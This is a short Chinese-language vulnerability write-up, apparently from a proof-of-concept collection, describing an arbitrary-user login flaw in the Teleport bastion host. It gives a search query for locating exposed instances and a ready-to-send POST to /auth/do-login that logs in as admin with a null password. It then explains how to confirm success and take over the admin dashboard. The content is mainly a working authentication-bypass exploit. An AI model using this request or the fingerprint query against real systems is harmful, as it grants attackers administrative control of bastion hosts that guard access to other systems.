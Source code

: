 # Teleport堡垒机 do-login 任意用户登录漏洞

## 漏洞描述

Teleport堡垒机存在任意用户登录漏洞，攻击者通过构造特殊的请求包可以登录堡垒机获取其他系统权限

## 漏洞影响

<a-checkbox checked>Teleport Version <= 20220817</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TELEPORT堡垒机"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1660720653270-fcd22c8e-0df1-42ea-aa02-2c94e0770e76-20220823130937164.png)

验证POC， captcha参数为验证码

```php
POST /auth/do-login

args={"type":2,"username":"admin","password":null,"captcha":"ykex","oath":"","remember":false}
```

![img](../../../.vuepress/public/img/1661087828041-1bf5d666-f5fd-4d69-9099-465b3dd492f2-20220823130936374.png)

code 返回 0 即为成功，再访问 /dashboard 获取管理员权限

![img](../../../.vuepress/public/img/1661087872154-ba6ae117-5a99-43f4-919f-1b22f403ab37-20220823130936385.png)